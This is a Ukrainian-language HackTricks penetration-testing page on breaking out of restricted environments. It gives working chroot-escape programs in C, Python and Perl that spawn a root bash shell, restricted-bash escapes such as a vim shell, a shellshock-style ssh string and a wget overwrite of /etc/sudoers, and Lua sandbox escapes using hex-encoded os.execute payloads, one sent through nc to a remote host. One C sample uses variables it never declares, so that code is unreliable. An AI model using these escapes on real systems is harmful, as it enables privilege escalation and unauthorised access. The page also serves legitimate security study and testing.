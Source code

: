 # Втеча з в'язниці

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## **GTFOBins**

**Шукайте на** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **можливість виконання будь-якого виконуваного файлу з властивістю "Shell"**

## Втеча з Chroot

З [вікіпедії](https://en.wikipedia.org/wiki/Chroot#Limitations): Механізм chroot **не призначений для захисту** від умисного втручання **привілейованими** (**root**) **користувачами**. На більшості систем контексти chroot не правильно стекаються, і програми, які працюють у chroot з достатніми привілеями, можуть виконати другий chroot, щоб вийти.\
Зазвичай це означає, що для втечі вам потрібно бути root всередині chroot.

{% hint style="success" %}
**Інструмент** [**chw00t**](https://github.com/earthquake/chw00t) був створений для зловживання наступними сценаріями та втечі з `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Якщо ви **root** всередині chroot, ви **можете втекти**, створивши **інший chroot**. Це тому, що 2 chroot не можуть існувати одночасно (у Linux), тому якщо ви створите папку, а потім **створите новий chroot** у цій новій папці, бувши **поза ним**, ви тепер будете **поза новим chroot** і, отже, ви будете в ФС.

Це трапляється, оскільки зазвичай chroot НЕ переміщує вашу робочу директорію до вказаної, тому ви можете створити chroot, але бути поза ним.
{% endhint %}

Зазвичай ви не знайдете бінарний файл `chroot` всередині в'язниці chroot, але ви **можете скомпілювати, завантажити та виконати** бінарний файл:
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Перл</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Збережений fd

{% hint style="warning" %}
Це схоже на попередній випадок, але в цьому випадку **зловмисник зберігає файловий дескриптор у поточному каталозі**, а потім **створює chroot у новій папці**. Нарешті, оскільки він має **доступ** до цього **FD** **поза** chroot, він отримує до нього доступ і **вибирається**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD може бути переданий через Unix Domain Sockets, тому:

* Створити дочірній процес (fork)
* Створити UDS, щоб батько і дитина могли спілкуватися
* Запустити chroot у дочірньому процесі в іншій папці
* У батьківському процесі створити FD папки, яка знаходиться поза новим chroot дочірнього процесу
* Передати цей FD дочірньому процесу за допомогою UDS
* Дочірній процес змінює поточну директорію на цей FD, і через те, що вона знаходиться поза його chroot, він вибереться з в'язниці
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Монтування кореневого пристрою (/) в каталог всередині chroot
* Chroot в цей каталог

Це можливо в Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Монтування procfs в каталог всередині chroot (якщо ще не)
* Шукайте pid, у якого інший корінь/поточна директорія, наприклад: /proc/1/root
* Chroot в цей запис
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Створити Fork (дочірній процес) і chroot в іншу папку глибше в FS та CD на неї
* З батьківського процесу перемістіть папку, де знаходиться дочірній процес, в папку перед chroot дітей
* Цей дочірній процес виявить себе поза chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Колись користувачі могли налагоджувати власні процеси з процесу самого себе... але це більше не можливо за замовчуванням
* У будь-якому випадку, якщо це можливо, ви можете використовувати ptrace в процесі та виконати shellcode всередині нього ([див. цей приклад](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Отримати інформацію про в'язницю:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Зміна PATH

Перевірте, чи можете ви змінити змінну середовища PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Використання vim
```bash
:set shell=/bin/sh
:shell
```
### Створення скрипту

Перевірте, чи можете ви створити виконуваний файл з вмістом _/bin/bash_
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Отримання bash з SSH

Якщо ви отримуєте доступ через ssh, ви можете скористатися цим трюком для виконання оболонки bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Оголошення
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Ви можете перезаписати, наприклад, файл sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Інші трюки

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Також може бути цікавою сторінка:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Трюки щодо виходу з Python в'язниць наступної сторінки:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

На цій сторінці ви можете знайти глобальні функції, до яких у вас є доступ всередині Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Оцінка з виконанням команд:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Деякі трюки для **виклику функцій бібліотеки без використання крапок**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Перерахуйте функції бібліотеки:
```bash
for k,v in pairs(string) do print(k,v) end
```
Зверніть увагу, що кожного разу, коли ви виконуєте попередню однорядкову команду в **різному середовищі lua, порядок функцій змінюється**. Тому, якщо вам потрібно виконати одну конкретну функцію, ви можете виконати атаку методом грубої сили, завантажуючи різні середовища lua та викликаючи першу функцію бібліотеки le:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Отримати інтерактивну lua оболонку**: Якщо ви знаходитесь всередині обмеженої lua оболонки, ви можете отримати нову lua оболонку (і, сподіваємося, необмежену), викликавши:
```bash
debug.debug()
```
## Посилання

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Слайди: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
